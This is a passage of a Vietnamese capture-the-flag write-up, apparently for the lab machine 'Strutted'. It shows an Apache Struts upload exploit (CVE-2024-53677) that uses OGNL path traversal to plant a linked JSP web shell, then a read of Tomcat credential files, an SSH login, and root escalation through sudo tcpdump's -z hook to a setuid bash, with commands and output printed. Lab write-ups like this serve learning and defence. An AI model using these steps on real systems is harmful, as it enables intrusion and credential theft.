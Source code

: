 upload tệp bất kỳ rồi dùng tham số OGNL `top.UploadFileName` để đổi đường dẫn (ở đây là `../../`) và đuôi sang `.jsp` ở vị trí có thể thực thi

<img width="1535" height="631" alt="image" src="https://github.com/user-attachments/assets/9fc561df-655a-46ca-b490-da1559d8310e" />

<img width="666" height="224" alt="image" src="https://github.com/user-attachments/assets/8822ddd4-7d78-4ba8-bcc1-560795f46aa1" />

Tôi sử dụng [shell.jsp](https://raw.githubusercontent.com/TAM-K592/CVE-2024-53677-S2-067/refs/heads/ALOK/shell.jsp) để thực thi, lúc này request trở thành:

<img width="1518" height="792" alt="image" src="https://github.com/user-attachments/assets/b5ae0b15-4121-4d09-b28a-ce05080bf328" />

Upload lên và truy cập vào `/shell.jsp?action=cmd&cmd=id`, lúc này lệnh được thực thi:

<img width="1464" height="464" alt="image" src="https://github.com/user-attachments/assets/5d4fb6b7-9122-4c4d-b78b-2fd2ba18e8a9" />

Để ý thì có file `/etc/tomcat9/tomcat-users.xml` là chứa mật khẩu của admin 

<img width="1461" height="706" alt="image" src="https://github.com/user-attachments/assets/bf0f92b6-85e6-431f-87b7-b115014412d6" />

Mở file `/etc/passwd` thì có user là `james` có bash, tôi thử ssh vào user `james` bằng mật khẩu `IT14d6SSP81k` thì được

<img width="1482" height="707" alt="image" src="https://github.com/user-attachments/assets/f6f3b1d1-1c31-496b-b592-f0afb438761e" />

```
james@strutted:~$ cat user.txt 
dca6570953f15d0413d935726a38eda0
james@strutted:~$ sudo -l
Matching Defaults entries for james on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User james may run the following commands on localhost:
    (ALL) NOPASSWD: /usr/sbin/tcpdump
```

Khi chạy `sudo -l` thì có `tcpdump` là có thể được chạy dưới quyền root, tôi lợi dùng điều này sử dụng:

```
james@strutted:~$ sudo -l
Matching Defaults entries for james on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User james may run the following commands on localhost:
    (ALL) NOPASSWD: /usr/sbin/tcpdump
james@strutted:~$ COMMAND='cp /bin/bash /tmp/bash && chmod +s /tmp/bash'
james@strutted:~$ TF=$(mktemp)
james@strutted:~$ echo "$COMMAND" > $TF
james@strutted:~$ chmod +x $TF         
james@strutted:~$ sudo tcpdump -ln -i lo -w /dev/null -W 1 -G 1 -z $TF -Z root
tcpdump: listening on lo, link-type EN10MB (Ethernet), snapshot length 262144 bytes
Maximum file limit reached: 1
1 packet captured
4 packets received by filter
0 packets dropped by kernel
james@strutted:~$ /tmp/bash -p
bash-5.1# id
uid=1000(james) gid=1000(james) euid=0(root) egid=0(root) groups=0(root),27(sudo),1000(james)
bash-5.1# cat /root/root.txt
419bc47eb36a40c7f3036e2fdc26ad23
```
